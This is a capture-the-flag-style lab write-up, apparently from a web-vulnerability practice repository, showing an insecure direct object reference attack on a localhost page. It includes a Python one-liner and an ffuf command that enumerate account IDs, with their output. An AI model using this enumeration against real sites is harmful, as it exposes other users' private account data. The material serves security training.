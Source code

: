 # IDOR - Insecure Direct Object Reference

- On login to the account we have got our account details.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/cac7160e-a5f3-48f5-aa00-ee08c6664c7e)

- On a quick look at the URL we have got an account with a number.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/edc9c12e-c0ea-4b43-b627-bb6c02ff4079)

- by changing the number to any random characters we got the details of another user easily.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/24c91d46-c2fa-4427-8df6-dd4c6ecd85b0)

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/f06b6298-605c-49ed-859e-b75108817d2d)

- To get details of all users we will make a file of 1-2000 numbers to exploit the account.
- For this, we will use Python code to create a file of numbers.

```python
python3 -c 'for i in range (1,2001): print (i)' > num.txt
```
- Now, we will use a tool named ffuf.
- Command: `ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w num.txt -fs 849 | grep FUZZ`

```bash
└─$ ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w num.txt -fs 849 | grep FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost/labs/e0x02.php?account=FUZZ
 :: Wordlist         : FUZZ: /home/singhx/labs/PEH/XSS/num.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 849
________________________________________________

    * FUZZ: 1002
    * FUZZ: 1000
    * FUZZ: 1001
    * FUZZ: 1003
    * FUZZ: 1005
    * FUZZ: 1006
    * FUZZ: 1008
    * FUZZ: 1009
    * FUZZ: 1011
    * FUZZ: 1007
    * FUZZ: 1012
    * FUZZ: 1013
    * FUZZ: 1016
    * FUZZ: 1010
    * FUZZ: 1014
    * FUZZ: 1015
    * FUZZ: 1017
    * FUZZ: 1018
    * FUZZ: 1019
    * FUZZ: 1004
:: Progress: [2000/2000] :: Job [1/1] :: 51 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
- Now, we can copy the account number and see the account details of the user.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/e189c142-8d95-4ae8-bacb-18661d206856)

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/9a90e4c6-60a6-4a31-9187-197182c2913a)

- Similarly, we can check for other accounts too.
